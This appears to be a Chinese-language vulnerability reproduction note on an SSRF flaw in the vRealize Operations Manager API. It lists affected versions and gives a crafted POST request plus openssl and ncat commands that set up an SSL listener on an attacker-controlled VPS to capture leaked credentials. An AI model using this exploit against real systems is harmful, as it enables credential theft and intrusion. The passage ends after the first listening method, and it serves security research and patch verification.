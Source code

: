 # 漏洞简述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API（路由）的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，并且通过服务器端向监听服务器发送的的request header头，可能会获取认证凭证。

# 影响范围

vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

cloud_foundation: 4.x 3.x

vRealize_suite_lifecycle_manager: 8.x

其中vRealize_operations_manager的8.3及以后版本虽存在SSRF漏洞，但已不能获取认证凭证。

# 漏洞复现

漏洞复现过程：

构造POST请求包，header头必须包含 Content-Type: application/json ，data格式为字典格式的ip:port/web路径，可以填写多个ip，用逗号分开。

```java
POST /casa/nodes/thumbprints HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 24

[
"127.0.0.2:6666"]
```

监听请求有两种途径，一是通过自己的vps监听，二是利用burpsuit的Collaborator模块监听

第一种途径：通过vps

在vps监听一个ssl加密协议的端口（一定要ssl加密的端口，否则收到的信息会是乱码，下面坑点处有提到）

```java
#在vps生成加密证书
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem

#监听ssl加密端口，这里为6666
ncat -lvk 6666 --ssl --ssl-cert cert.pem --ssl-key key.pem
```

监听端口之后，发送伪造的请求包，即可看到认证凭证，base64解密后为账号密码
